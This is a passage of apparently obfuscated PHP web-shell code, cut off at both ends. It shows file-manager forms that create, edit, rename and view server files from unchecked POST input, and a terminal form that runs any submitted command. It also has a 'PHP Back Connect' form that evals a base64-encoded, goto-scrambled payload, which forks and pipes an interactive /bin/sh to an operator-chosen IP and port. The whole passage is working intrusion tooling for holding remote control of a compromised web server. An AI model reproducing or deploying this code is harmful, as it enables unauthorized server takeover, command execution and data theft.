                            $rRwNpSflmI = base64_decode("Z290byBQSVdtODsKbFVjUWI6CmZjbG9zZSgkcGlwWzJdKTsKZ290byBUT01NNjsKbzZfbnM6CmV4aXQoMCk7CmdvdG8gZExXZVE7CnJDVnd6OgokZWEgPSBudWxsOwpnb3RvIE9rZ2M4OwpQSVdtODoKZXJyb3JfcmVwb3J0aW5nKDApOwpnb3RvIHdrcktMOwpkTFdlUToKSzFmSnI6CmdvdG8gRVEwZm07CnNnTWNQOgpmY2xvc2UoJHMpOwpnb3RvIFc1eUxiOwpOOGkyYjoKaWYgKCFpbl9hcnJheSgkcGlwWzFdLCAkcmEpKSB7CiAgZ290byB5Q1pzUTsKfQpnb3RvIHV0VUdtOwpjYXQ5MDoKaWYgKCFmdW5jdGlvbl9leGlzdHMoIlwxNjBceDYzXHg2ZVx4NzRceDZjXDEzN1x4NjZceDZmXDE2MlwxNTMiKSkgewogIGdvdG8gQmFhcjA7Cn0KZ290byBDQ3ZNbTsKUFVlRFI6Cm9iX2ltcGxpY2l0X2ZsdXNoKCk7CmdvdG8gUlAweWc7CkF0dEZVOgpleGl0KDEpOwpnb3RvIEVnOWhnOwpLUTFRUjoKJGkgPSBmcmVhZCgkcGlwWzJdLCAkY3MpOwpnb3RvIE1DbmloOwpTUEVaRDoKJHAgPSAkdGFyZ2V0Owpnb3RvIE5SVDNpOwpoWXl6YToKeUNac1E6CmdvdG8gZ29NN007Cm9DbWFNOgpzdHJlYW1fc2V0X3RpbWVvdXQoJHMsIDMwKTsKZ290byBxeVkyVDsKVkRCQXE6CiRzID0gc3RyZWFtX3NvY2tldF9zZXJ2ZXIoIlx4NzRceDYzXDE2MFx4M2FceDJmXHgyZlw2MFw1Nlx4MzBceDJlXHgzMFw1Nlw2MFx4M2EiIC4gJHAsICRlcnJubywgJGVycnN0cik7CmdvdG8gb0NtYU07Ck9odWU4OgppZiAoJHQgPT0gIlx4NjJcMTUxXDE1NlwxNDQiKSB7CiAgZ290byBwZVhlUTsKfQpnb3RvIHBIa2t6Owp0dkVIUjoKWFhCS3Q6CmdvdG8gVDRMRWk7CmFaT0FtOgpmY2xvc2UoJHBpcFsyXSk7CmdvdG8gT0dOT1U7ClEzanZjOgokdCA9ICJcMTQyXDE0MVx4NjNcMTUzIjsKZ290byBRdHhMODsKUEJSM2U6CmZjbG9zZSgkcyk7CmdvdG8gUWZmNlc7Clc1eUxiOgpmY2xvc2UoJHBpcFswXSk7CmdvdG8gazBZcFE7Ck9HTk9VOgpwcm9jX2Nsb3NlKCRwcik7CmdvdG8gTWl4NzU7Ck1DbmloOgpmd3JpdGUoJHMsICRpKTsKZ290byB4dlJTejsKSUlwQzc6CmlmICghdHJ1ZSkgewogIGdvdG8gaVY2blM7Cn0KZ290byBveFFXejsKdHZkSG46CmZ3cml0ZSgkYywgJG0pOwpnb3RvIGIyTW1BOwpPa2djODoKJHNoID0gIlwxNDVceDc4XHg3MFx4NmZceDcyXHg3NFw0MFx4NTRcMTA1XDEyMlx4NGRcNzVceDc4XHg3NFx4NjVcMTYyXDE1NVw3M1wxMjBceDUzXHgzMVx4M2RceDI3XHgyNFwxMjBcMTI3XHg0NFx4M2VcNDdceDNiXHg2NVx4NzhcMTYwXHg2ZlwxNjJceDc0XHgyMFx4NTBcMTIzXDYxXDczXHgyZlx4NjJcMTUxXDE1Nlx4MmZcMTYzXDE1MFw0MFw1NVwxNTEiOwpnb3RvIGRKQk1GOwp1dFVHbToKJGkgPSBmcmVhZCgkcGlwWzFdLCAkY3MpOwpnb3RvIEEyNHRJOwpwczhQaToKZ290byBXQlczUjsKZ290byB1WXhiTzsKY0JwaWo6CmlmIChjb3VudCgkdGFyZ2V0cykgPT0gMSkgewogIGdvdG8gYzZ2bEM7Cn0KZ290byBEU2tUbjsKZ29NN006CmlmICghaW5fYXJyYXkoJHBpcFsyXSwgJHJhKSkgewogIGdvdG8gT0FLb1I7Cn0KZ290byBOOU91MTsKbk9GNDc6CiR3YSA9IG51bGw7CmdvdG8gckNWd3o7CnVZeGJPOgpGN0pPcDoKZ290byBqaEVkMzsKUXR4TDg6CldCVzNSOgpnb3RvIGNhdDkwOwpwd3FhSzoKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzBdLCAwKTsKZ290byBJYXFISTsKTlJUM2k6CiRoID0gJyc7CmdvdG8gSzlzeVA7Cmk2aUwxOgpmd3JpdGUoJHBpcFswXSwgJGkpOwpnb3RvIE40VUlDOwpmdWZwWDoKZXhpdCgxKTsKZ290byBReDFLVTsKcXlZMlQ6CiRjID0gc3RyZWFtX3NvY2tldF9hY2NlcHQoJHMpOwpnb3RvIHR2ZEhuOwpkSkJNRjoKJG0gPSAiXHg0N1wxNDVcMTU0XHgzNFx4NzlcNDBcMTIzXHg2OFwxNDVcMTU0XHg2Y1x4YSI7CmdvdG8gY0JwaWo7CkQzUnVoOgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRjLCAwKTsKZ290byB5RHhyazsKWU05MEg6CiRkcyA9IGFycmF5KDAgPT4gYXJyYXkoIlx4NzBcMTUxXHg3MFx4NjUiLCAiXHg3MiIpLCAxID0+IGFycmF5KCJceDcwXDE1MVwxNjBcMTQ1IiwgIlwxNjciKSwgMiA9PiBhcnJheSgiXDE2MFx4NjlcMTYwXHg2NSIsICJcMTY3IikpOwpnb3RvIEFZaGtlOwp1RWdWRjoKZXhpdCgxKTsKZ290byBtNGdrbDsKTVpCcWw6CmZjbG9zZSgkcGlwWzFdKTsKZ290byBhWk9BbTsKSzlzeVA6CiR0ID0gIlx4NjJceDY5XHg2ZVwxNDQiOwpnb3RvIHBzOFBpOwpyV3lnMjoKZ290byB2ZzFKMTsKZ290byB0dkVIUjsKdEszM186CmlmIChpc19yZXNvdXJjZSgkcHIpKSB7CiAgZ290byBvUnRUMDsKfQpnb3RvIGZ1ZnBYOwpZMGNIajoKJHMgPSBmc29ja29wZW4oJGgsICRwLCAkZW4sICRlcywgMzApOwpnb3RvIEg3bTNlOwpFZzloZzoKczVkN186CmdvdG8gcHdxYUs7ClQ0TEVpOgokcmEgPSBhcnJheSgkYywgJHBpcFsxXSwgJHBpcFsyXSk7CmdvdG8gek9mOUQ7Clg3a1UzOgppZiAoISgkcGlkID09IC0xKSkgewogIGdvdG8gVkIzX047Cn0KZ290byBkMm15ZDsKUzBNTHo6CkJhYXIwOgpnb3RvIE9odWU4OwpReDFLVToKb1J0VDA6CmdvdG8gdGVqbUU7Cm00Z2tsOgpMaFA2QjoKZ290byBTME1MejsKTjRVSUM6CkNHSTQwOgpnb3RvIE44aTJiOwpkMm15ZDoKZXhpdCgxKTsKZ290byBWaDM5QTsKTjlPdTE6CiRpID0gZnJlYWQoJHBpcFsyXSwgJGNzKTsKZ290byBVa1M2ejsKTWl4NzU6CmdvdG8gdFhjSV87CmdvdG8gc3hHbTA7CnBIa2t6OgppZiAoJHQgPT0gIlx4NjJceDYxXDE0M1x4NmIiKSB7CiAgZ290byBqVUhKNDsKfQpnb3RvIHBVaF9MOwpkbW1FSDoKJGkgPSBmcmVhZCgkcGlwWzFdLCAkY3MpOwpnb3RvIGxncm4yOwpoVHJWaToKVDh4b1E6CmdvdG8gY2VIbnQ7CkQ4VlpFOgppZiAoIXRydWUpIHsKICBnb3RvIHZnMUoxOwp9CmdvdG8gSF9MSHk7CnZDOUswOgpzdHJlYW1fc2VsZWN0KCRyYSwgJHdhLCAkZWEsIG51bGwpOwpnb3RvIHVoUFNyOwpUT01NNjoKcHJvY19jbG9zZSgkcHIpOwpnb3RvIGNIeXJYOwpRV18yVDoKJHByID0gcHJvY19vcGVuKCRzaCwgJGRzLCAkcGlwKTsKZ290byB0SzMzXzsKUWZmNlc6CmZjbG9zZSgkYyk7CmdvdG8gdVduaUk7CnpIXzNuOgppZiAoIWluX2FycmF5KCRwaXBbMV0sICRyYSkpIHsKICBnb3RvIFQ4eG9ROwp9CmdvdG8gZG1tRUg7Cld1WmpoOgokY3MgPSAxMzM3Owpnb3RvIG5PRjQ3OwpzeEdtMDoKalVISjQ6CmdvdG8gWTBjSGo7ClJQMHlnOgokdGFyZ2V0cyA9IGV4cGxvZGUoIlw0MCIsICR0YXJnZXQpOwpnb3RvIFd1WmpoOwpFUTBmbToKaWYgKCEocG9zaXhfc2V0c2lkKCkgPT0gLTEpKSB7CiAgZ290byBMaFA2QjsKfQpnb3RvIHVFZ1ZGOwpDQ3ZNbToKJHBpZCA9IHBjbnRsX2ZvcmsoKTsKZ290byBYN2tVMzsKRTIyYkw6CmM2dmxDOgpnb3RvIFNQRVpEOwpBWWhrZToKJHByID0gcHJvY19vcGVuKCRzaCwgJGRzLCAkcGlwKTsKZ290byBoMWhENDsKSF9MSHk6CmlmICghKGZlb2YoJGMpIHx8IGZlb2YoJHBpcFsxXSkpKSB7CiAgZ290byBYWEJLdDsKfQpnb3RvIHJXeWcyOwpwVWhfTDoKZ290byB0WGNJXzsKZ290byB3X3p4UTsKTTdNSnc6CiRpID0gZnJlYWQoJHMsICRjcyk7CmdvdG8gdW4yQm87CnpPZjlEOgpzdHJlYW1fc2VsZWN0KCRyYSwgJHdhLCAkZWEsIG51bGwpOwpnb3RvIFAySE14OwpJYXFISToKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzFdLCAwKTsKZ290byB3b0FaMzsKQTZNRjA6CiRpID0gZnJlYWQoJGMsICRjcyk7CmdvdG8gaTZpTDE7Cmxncm4yOgpmd3JpdGUoJHMsICRpKTsKZ290byBoVHJWaTsKVjRlS2c6CmlmICghJHBpZCkgewogIGdvdG8gSzFmSnI7Cn0KZ290byBvNl9uczsKWDJhdVg6CmdvdG8gV0JXM1I7CmdvdG8gRTIyYkw7ClZoMzlBOgpWQjNfTjoKZ290byBWNGVLZzsKSDdtM2U6CmZ3cml0ZSgkcywgJG0pOwpnb3RvIFlNOTBIOwpVa1M2ejoKZndyaXRlKCRjLCAkaSk7CmdvdG8gbEtoOHU7ClBseER1OgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRwaXBbMV0sIDApOwpnb3RvIEs3NnNnOwpsS2g4dToKT0FLb1I6CmdvdG8gbl81VU87CnZtMDl0OgppVjZuUzoKZ290byBzZ01jUDsKeUR4cms6ClY1RFpfOgpnb3RvIEQ4VlpFOwp3b0FaMzoKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzJdLCAwKTsKZ290byBqNm1KVzsKZVY1V1U6ClFETDlHOgpnb3RvIHpIXzNuOwp1bjJCbzoKZndyaXRlKCRwaXBbMF0sICRpKTsKZ290byBlVjVXVTsKQTI0dEk6CmZ3cml0ZSgkYywgJGkpOwpnb3RvIGhZeXphOwppZVAzMzoKJHJhID0gYXJyYXkoJHMsICRwaXBbMV0sICRwaXBbMl0pOwpnb3RvIHZDOUswOwpoMWhENDoKaWYgKGlzX3Jlc291cmNlKCRwcikpIHsKICBnb3RvIHM1ZDdfOwp9CmdvdG8gQXR0RlU7CmNPb0JlOgpXUW1qXzoKZ290byBJSXBDNzsKRUtzaXU6CmdvdG8gaVY2blM7CmdvdG8gUFFUV0M7Cm5fNVVPOgpnb3RvIFY1RFpfOwpnb3RvIElDd2UzOwpiMk1tQToKJGRzID0gYXJyYXkoMCA9PiBhcnJheSgiXDE2MFwxNTFceDcwXHg2NSIsICJceDcyIiksIDEgPT4gYXJyYXkoIlwxNjBcMTUxXHg3MFwxNDUiLCAiXDE2NyIpLCAyID0+IGFycmF5KCJcMTYwXDE1MVwxNjBcMTQ1IiwgIlwxNjciKSk7CmdvdG8gUVdfMlQ7CndrcktMOgpzZXRfdGltZV9saW1pdCgwKTsKZ290byBQVWVEUjsKSzc2c2c6CnN0cmVhbV9zZXRfYmxvY2tpbmcoJHBpcFsyXSwgMCk7CmdvdG8gRDNSdWg7CnVXbmlJOgpmY2xvc2UoJHBpcFswXSk7CmdvdG8gTVpCcWw7ClBRVFdDOgpnakhfMToKZ290byBpZVAzMzsKajZtSlc6CnN0cmVhbV9zZXRfYmxvY2tpbmcoJHMsIDApOwpnb3RvIGNPb0JlOwp4dlJTejoKd1NOX3Q6CmdvdG8gUGJVczk7Cm94UVd6OgppZiAoIShmZW9mKCRzKSB8fCBmZW9mKCRwaXBbMV0pKSkgewogIGdvdG8gZ2pIXzE7Cn0KZ290byBFS3NpdTsKdWhQU3I6CmlmICghaW5fYXJyYXkoJHMsICRyYSkpIHsKICBnb3RvIFFETDlHOwp9CmdvdG8gTTdNSnc7CnRlam1FOgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRwaXBbMF0sIDApOwpnb3RvIFBseER1OwpEU2tUbjoKaWYgKGNvdW50KCR0YXJnZXRzKSA9PSAyKSB7CiAgZ290byBGN0pPcDsKfQpnb3RvIFgyYXVYOwpJQ3dlMzoKdmcxSjE6CmdvdG8gUEJSM2U7CmswWXBROgpmY2xvc2UoJHBpcFsxXSk7CmdvdG8gbFVjUWI7ClAySE14OgppZiAoIWluX2FycmF5KCRjLCAkcmEpKSB7CiAgZ290byBDR0k0MDsKfQpnb3RvIEE2TUYwOwpoWmk4ejoKJGggPSAkdGFyZ2V0c1sxXTsKZ290byBRM2p2YzsKY2VIbnQ6CmlmICghaW5fYXJyYXkoJHBpcFsyXSwgJHJhKSkgewogIGdvdG8gd1NOX3Q7Cn0KZ290byBLUTFRUjsKd196eFE6CnBlWGVROgpnb3RvIFZEQkFxOwpqaEVkMzoKJHAgPSAkdGFyZ2V0c1swXTsKZ290byBoWmk4ejsKUGJVczk6CmdvdG8gV1Ftal87CmdvdG8gdm0wOXQ7CmNIeXJYOgp0WGNJXzo=");
                            $rRwNpSflmI = "\$target = \"{$g9_4Zq7xGB} {$TkCbW35AQi}\";\n{$rRwNpSflmI}";
                            eval($rRwNpSflmI);
                            echo 'Finished...';
                            echo '</div>';
                        }
                    } else {
                        if ($hzOvuJeFzz == "cfile") {
                            ?>
<h5>New file</h5>
<form method="post">
<div class="form-group">
<label for="n">File name :</label><input type="text" name="n" id="n" class="form-control" placeholder="hack.txt">
</div>
<div class="form-group">
<label for="ctn">Content :</label><textarea name="ctn" id="ctn" cols="30" rows="10" class="form-control" placeholder="# Stamped By Me"></textarea>
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Create</button>
</div>
</form>
<?php 
                            isset($_POST["s"]) ? file_exists("{$EEfZ6TZDdb}/{$_POST["n"]}") ? BB5iNvUgyh("file name has been used", rxeFBN6HEy($EEfZ6TZDdb, 0) . "&a=" . rXefbN6HEy("cfile", 0), 0) : (file_put_contents("{$EEfZ6TZDdb}/{$_POST["n"]}", $_POST["ctn"]) ? Bb5inVUGYh("file created successfully", rXeFBN6heY($EEfZ6TZDdb, 0) . "&a=" . rXEFBn6HEy("view", 0) . "&n=" . RXeFbn6heY($_POST["n"], 0)) : Bb5invUgYh("file failed to create", rxEFBN6HEy($EEfZ6TZDdb, 0), 0)) : null;
                        } else {
                            if ($hzOvuJeFzz == "cdir") {
                                ?>
<h5>New folder</h5>
<form method="post">
<div class="form-group">
<label for="n">Name :</label>
<input name="n" id="n" class="form-control" autocomplete="off">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Create</button>
</div>
</form>
<?php 
                                isset($_POST["s"]) ? file_exists("{$EEfZ6TZDdb}/{$_POST["n"]}") ? Bb5INvugYh("folder name has been used", rxefbn6hEy($EEfZ6TZDdb, 0) . "&a=" . rxefBn6hey("cdir", 0)) : (mkdir("{$EEfZ6TZDdb}/{$_POST["n"]}") ? bB5iNVUGyH("folder created successfully", RxeFbN6HEy($EEfZ6TZDdb . "/" . $_POST["n"], 0)) : BB5InvUgYH("folder failed to create", RxEfBN6hEy($EEfZ6TZDdb, 0), 0)) : null;
                            } else {
                                if ($hzOvuJeFzz == "term") {
                                    ?>
<h5>Command</h5>
<pre class="border bg-info p-2"><i class="fa fa-terminal"></i> <?php 
                                    echo isset($_POST["cmd"]) ? $_POST["cmd"] . "<br>" . ZiODPz7nrE($_POST["cmd"]) : "";
                                    ?></pre>
<form method="post">
<div class="form-group">
<input type="text" name="cmd" class="form-control">
</div>
</form>
<?php 
                                } else {
                                    if ($hzOvuJeFzz == 'edit') {
                                        ?>
<h5>Edit file</h5>
<span>File name : <?php 
                                        echo RxEfbn6Hey($_GET["n"]);
                                        ?></span>
<form method="post">
<div class="form-group">
<label for="ctn">Content :</label><textarea name="ctn" id="ctn" cols="30" rows="10" class="form-control"><?php 
                                        echo htmlspecialchars(file_get_contents($EEfZ6TZDdb . '/' . RxEfbN6hEy($_GET["n"])));
                                        ?></textarea>
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Save</button>
</div>
</form>
<?php 
                                        isset($_POST["s"]) ? file_put_contents($EEfZ6TZDdb . '/' . rXefBN6HeY($_GET["n"]), $_POST["ctn"]) ? bb5InvUgYH("file contents changed successfully", rXefbN6heY($EEfZ6TZDdb, 0) . "&a=" . RXeFbN6Hey("view", 0) . "&n={$_GET["n"]}") : BB5INVUgYh("file contents failed to change", RxEFBN6hey($EEfZ6TZDdb, 0), 0) : null;
                                    } else {
                                        if ($hzOvuJeFzz == 'rename') {
                                            ?>
<h5>View <?php 
                                            echo $_GET["t"] == "d" ? "folder" : "file";
                                            ?></h5>
<form method="post">
<div class="form-group">
<label for="n">Name :</label><input type="text" name="n" id="n" class="form-control" value="<?php 
                                            echo rxeFBn6hEy($_GET["n"]);
                                            ?>">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Save</button>
</div>
</form>
<?php 
                                            isset($_POST["s"]) ? rename($EEfZ6TZDdb . '/' . rXEFbn6heY($_GET["n"]), $_POST["n"]) ? bB5invUGyH("successfully changed the name", rxEfbn6hey($EEfZ6TZDdb, 0)) : Bb5iNvugyh("failed to change the name", RXEfbn6HEY($EEfZ6TZDdb, 0), 0) : null;
                                        } else {
                                            if ($hzOvuJeFzz == 'view') {
                                                ?>
<h5>View file</h5>
<span>File name : <?php 
                                                echo rXEfBN6HEy($_GET["n"]);
                                                ?></span>
<div class="form-group">
<label for="ctn">Content :</label><textarea id="ctn" cols="30" rows="10" class="form-control" readonly><?php 
                                                echo htmlspecialchars(file_get_contents($EEfZ6TZDdb . '/' . rXEFBN6HeY($_GET["n"])));
                                                ?></textarea>
</div>
<?php 
                                            } else {
                                            }
                                        }
                                    }
                                }
                            }
                        }
                    }
                } else {
                    bb5inVuGYh("file to delete the folder", rxEfBN6Hey($EEfZ6TZDdb, 0), 0);
                    if ($hzOvuJeFzz == "con") {
                        ?>
<h5>PHP Back Connect</h5>
<form method="post">
<div class="input-group mb-3">
<input type="text" name="ip" placeholder="<?php 
                        echo $_SERVER["REMOTE_ADDR"];
                        ?>" class="form-control">
<input type="number" name="port" placeholder="<?php 
                        echo rand(1, 6) * 1922;
                        ?>" class="form-control">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Connect</button>
</div>
</form>
<?php 
                        if (isset($_POST['s'])) {
                            echo '<div class="my-3">';
                            $TkCbW35AQi = $_POST['ip'];
                            $g9_4Zq7xGB = $_POST['port'];
                            $rRwNpSflmI = base64_decode("Z290byBQSVdtODsKbFVjUWI6CmZjbG9zZSgkcGlwWzJdKTsKZ290byBUT01NNjsKbzZfbnM6CmV4aXQoMCk7CmdvdG8gZExXZVE7CnJDVnd6OgokZWEgPSBudWxsOwpnb3RvIE9rZ2M4OwpQSVdtODoKZXJyb3JfcmVwb3J0aW5nKDApOwpnb3RvIHdrcktMOwpkTFdlUToKSzFmSnI6CmdvdG8gRVEwZm07CnNnTWNQOgpmY2xvc2UoJHMpOwpnb3RvIFc1eUxiOwpOOGkyYjoKaWYgKCFpbl9hcnJheSgkcGlwWzFdLCAkcmEpKSB7CiAgZ290byB5Q1pzUTsKfQpnb3RvIHV0VUdtOwpjYXQ5MDoKaWYgKCFmdW5jdGlvbl9leGlzdHMoIlwxNjBceDYzXHg2ZVx4NzRceDZjXDEzN1x4NjZceDZmXDE2MlwxNTMiKSkgewogIGdvdG8gQmFhcjA7Cn0KZ290byBDQ3ZNbTsKUFVlRFI6Cm9iX2ltcGxpY2l0X2ZsdXNoKCk7CmdvdG8gUlAweWc7CkF0dEZVOgpleGl0KDEpOwpnb3RvIEVnOWhnOwpLUTFRUjoKJGkgPSBmcmVhZCgkcGlwWzJdLCAkY3MpOwpnb3RvIE1DbmloOwpTUEVaRDoKJHAgPSAkdGFyZ2V0Owpnb3RvIE5SVDNpOwpoWXl6YToKeUNac1E6CmdvdG8gZ29NN007Cm9DbWFNOgpzdHJlYW1fc2V0X3RpbWVvdXQoJHMsIDMwKTsKZ290byBxeVkyVDsKVkRCQXE6CiRzID0gc3RyZWFtX3NvY2tldF9zZXJ2ZXIoIlx4NzRceDYzXDE2MFx4M2FceDJmXHgyZlw2MFw1Nlx4MzBceDJlXHgzMFw1Nlw2MFx4M2EiIC4gJHAsICRlcnJubywgJGVycnN0cik7CmdvdG8gb0NtYU07Ck9odWU4OgppZiAoJHQgPT0gIlx4NjJcMTUxXDE1NlwxNDQiKSB7CiAgZ290byBwZVhlUTsKfQpnb3RvIHBIa2t6Owp0dkVIUjoKWFhCS3Q6CmdvdG8gVDRMRWk7CmFaT0FtOgpmY2xvc2UoJHBpcFsyXSk7CmdvdG8gT0dOT1U7ClEzanZjOgokdCA9ICJcMTQyXDE0MVx4NjNcMTUzIjsKZ290byBRdHhMODsKUEJSM2U6CmZjbG9zZSgkcyk7CmdvdG8gUWZmNlc7Clc1eUxiOgpmY2xvc2UoJHBpcFswXSk7CmdvdG8gazBZcFE7Ck9HTk9VOgpwcm9jX2Nsb3NlKCRwcik7CmdvdG8gTWl4NzU7Ck1DbmloOgpmd3JpdGUoJHMsICRpKTsKZ290byB4dlJTejsKSUlwQzc6CmlmICghdHJ1ZSkgewogIGdvdG8gaVY2blM7Cn0KZ290byBveFFXejsKdHZkSG46CmZ3cml0ZSgkYywgJG0pOwpnb3RvIGIyTW1BOwpPa2djODoKJHNoID0gIlwxNDVceDc4XHg3MFx4NmZceDcyXHg3NFw0MFx4NTRcMTA1XDEyMlx4NGRcNzVceDc4XHg3NFx4NjVcMTYyXDE1NVw3M1wxMjBceDUzXHgzMVx4M2RceDI3XHgyNFwxMjBcMTI3XHg0NFx4M2VcNDdceDNiXHg2NVx4NzhcMTYwXHg2ZlwxNjJceDc0XHgyMFx4NTBcMTIzXDYxXDczXHgyZlx4NjJcMTUxXDE1Nlx4MmZcMTYzXDE1MFw0MFw1NVwxNTEiOwpnb3RvIGRKQk1GOwp1dFVHbToKJGkgPSBmcmVhZCgkcGlwWzFdLCAkY3MpOwpnb3RvIEEyNHRJOwpwczhQaToKZ290byBXQlczUjsKZ290byB1WXhiTzsKY0JwaWo6CmlmIChjb3VudCgkdGFyZ2V0cykgPT0gMSkgewogIGdvdG8gYzZ2bEM7Cn0KZ290byBEU2tUbjsKZ29NN006CmlmICghaW5fYXJyYXkoJHBpcFsyXSwgJHJhKSkgewogIGdvdG8gT0FLb1I7Cn0KZ290byBOOU91MTsKbk9GNDc6CiR3YSA9IG51bGw7CmdvdG8gckNWd3o7CnVZeGJPOgpGN0pPcDoKZ290byBqaEVkMzsKUXR4TDg6CldCVzNSOgpnb3RvIGNhdDkwOwpwd3FhSzoKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzBdLCAwKTsKZ290byBJYXFISTsKTlJUM2k6CiRoID0gJyc7CmdvdG8gSzlzeVA7Cmk2aUwxOgpmd3JpdGUoJHBpcFswXSwgJGkpOwpnb3RvIE40VUlDOwpmdWZwWDoKZXhpdCgxKTsKZ290byBReDFLVTsKcXlZMlQ6CiRjID0gc3RyZWFtX3NvY2tldF9hY2NlcHQoJHMpOwpnb3RvIHR2ZEhuOwpkSkJNRjoKJG0gPSAiXHg0N1wxNDVcMTU0XHgzNFx4NzlcNDBcMTIzXHg2OFwxNDVcMTU0XHg2Y1x4YSI7CmdvdG8gY0JwaWo7CkQzUnVoOgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRjLCAwKTsKZ290byB5RHhyazsKWU05MEg6CiRkcyA9IGFycmF5KDAgPT4gYXJyYXkoIlx4NzBcMTUxXHg3MFx4NjUiLCAiXHg3MiIpLCAxID0+IGFycmF5KCJceDcwXDE1MVwxNjBcMTQ1IiwgIlwxNjciKSwgMiA9PiBhcnJheSgiXDE2MFx4NjlcMTYwXHg2NSIsICJcMTY3IikpOwpnb3RvIEFZaGtlOwp1RWdWRjoKZXhpdCgxKTsKZ290byBtNGdrbDsKTVpCcWw6CmZjbG9zZSgkcGlwWzFdKTsKZ290byBhWk9BbTsKSzlzeVA6CiR0ID0gIlx4NjJceDY5XHg2ZVwxNDQiOwpnb3RvIHBzOFBpOwpyV3lnMjoKZ290byB2ZzFKMTsKZ290byB0dkVIUjsKdEszM186CmlmIChpc19yZXNvdXJjZSgkcHIpKSB7CiAgZ290byBvUnRUMDsKfQpnb3RvIGZ1ZnBYOwpZMGNIajoKJHMgPSBmc29ja29wZW4oJGgsICRwLCAkZW4sICRlcywgMzApOwpnb3RvIEg3bTNlOwpFZzloZzoKczVkN186CmdvdG8gcHdxYUs7ClQ0TEVpOgokcmEgPSBhcnJheSgkYywgJHBpcFsxXSwgJHBpcFsyXSk7CmdvdG8gek9mOUQ7Clg3a1UzOgppZiAoISgkcGlkID09IC0xKSkgewogIGdvdG8gVkIzX047Cn0KZ290byBkMm15ZDsKUzBNTHo6CkJhYXIwOgpnb3RvIE9odWU4OwpReDFLVToKb1J0VDA6CmdvdG8gdGVqbUU7Cm00Z2tsOgpMaFA2QjoKZ290byBTME1MejsKTjRVSUM6CkNHSTQwOgpnb3RvIE44aTJiOwpkMm15ZDoKZXhpdCgxKTsKZ290byBWaDM5QTsKTjlPdTE6CiRpID0gZnJlYWQoJHBpcFsyXSwgJGNzKTsKZ290byBVa1M2ejsKTWl4NzU6CmdvdG8gdFhjSV87CmdvdG8gc3hHbTA7CnBIa2t6OgppZiAoJHQgPT0gIlx4NjJceDYxXDE0M1x4NmIiKSB7CiAgZ290byBqVUhKNDsKfQpnb3RvIHBVaF9MOwpkbW1FSDoKJGkgPSBmcmVhZCgkcGlwWzFdLCAkY3MpOwpnb3RvIGxncm4yOwpoVHJWaToKVDh4b1E6CmdvdG8gY2VIbnQ7CkQ4VlpFOgppZiAoIXRydWUpIHsKICBnb3RvIHZnMUoxOwp9CmdvdG8gSF9MSHk7CnZDOUswOgpzdHJlYW1fc2VsZWN0KCRyYSwgJHdhLCAkZWEsIG51bGwpOwpnb3RvIHVoUFNyOwpUT01NNjoKcHJvY19jbG9zZSgkcHIpOwpnb3RvIGNIeXJYOwpRV18yVDoKJHByID0gcHJvY19vcGVuKCRzaCwgJGRzLCAkcGlwKTsKZ290byB0SzMzXzsKUWZmNlc6CmZjbG9zZSgkYyk7CmdvdG8gdVduaUk7CnpIXzNuOgppZiAoIWluX2FycmF5KCRwaXBbMV0sICRyYSkpIHsKICBnb3RvIFQ4eG9ROwp9CmdvdG8gZG1tRUg7Cld1WmpoOgokY3MgPSAxMzM3Owpnb3RvIG5PRjQ3OwpzeEdtMDoKalVISjQ6CmdvdG8gWTBjSGo7ClJQMHlnOgokdGFyZ2V0cyA9IGV4cGxvZGUoIlw0MCIsICR0YXJnZXQpOwpnb3RvIFd1WmpoOwpFUTBmbToKaWYgKCEocG9zaXhfc2V0c2lkKCkgPT0gLTEpKSB7CiAgZ290byBMaFA2QjsKfQpnb3RvIHVFZ1ZGOwpDQ3ZNbToKJHBpZCA9IHBjbnRsX2ZvcmsoKTsKZ290byBYN2tVMzsKRTIyYkw6CmM2dmxDOgpnb3RvIFNQRVpEOwpBWWhrZToKJHByID0gcHJvY19vcGVuKCRzaCwgJGRzLCAkcGlwKTsKZ290byBoMWhENDsKSF9MSHk6CmlmICghKGZlb2YoJGMpIHx8IGZlb2YoJHBpcFsxXSkpKSB7CiAgZ290byBYWEJLdDsKfQpnb3RvIHJXeWcyOwpwVWhfTDoKZ290byB0WGNJXzsKZ290byB3X3p4UTsKTTdNSnc6CiRpID0gZnJlYWQoJHMsICRjcyk7CmdvdG8gdW4yQm87CnpPZjlEOgpzdHJlYW1fc2VsZWN0KCRyYSwgJHdhLCAkZWEsIG51bGwpOwpnb3RvIFAySE14OwpJYXFISToKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzFdLCAwKTsKZ290byB3b0FaMzsKQTZNRjA6CiRpID0gZnJlYWQoJGMsICRjcyk7CmdvdG8gaTZpTDE7Cmxncm4yOgpmd3JpdGUoJHMsICRpKTsKZ290byBoVHJWaTsKVjRlS2c6CmlmICghJHBpZCkgewogIGdvdG8gSzFmSnI7Cn0KZ290byBvNl9uczsKWDJhdVg6CmdvdG8gV0JXM1I7CmdvdG8gRTIyYkw7ClZoMzlBOgpWQjNfTjoKZ290byBWNGVLZzsKSDdtM2U6CmZ3cml0ZSgkcywgJG0pOwpnb3RvIFlNOTBIOwpVa1M2ejoKZndyaXRlKCRjLCAkaSk7CmdvdG8gbEtoOHU7ClBseER1OgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRwaXBbMV0sIDApOwpnb3RvIEs3NnNnOwpsS2g4dToKT0FLb1I6CmdvdG8gbl81VU87CnZtMDl0OgppVjZuUzoKZ290byBzZ01jUDsKeUR4cms6ClY1RFpfOgpnb3RvIEQ4VlpFOwp3b0FaMzoKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzJdLCAwKTsKZ290byBqNm1KVzsKZVY1V1U6ClFETDlHOgpnb3RvIHpIXzNuOwp1bjJCbzoKZndyaXRlKCRwaXBbMF0sICRpKTsKZ290byBlVjVXVTsKQTI0dEk6CmZ3cml0ZSgkYyw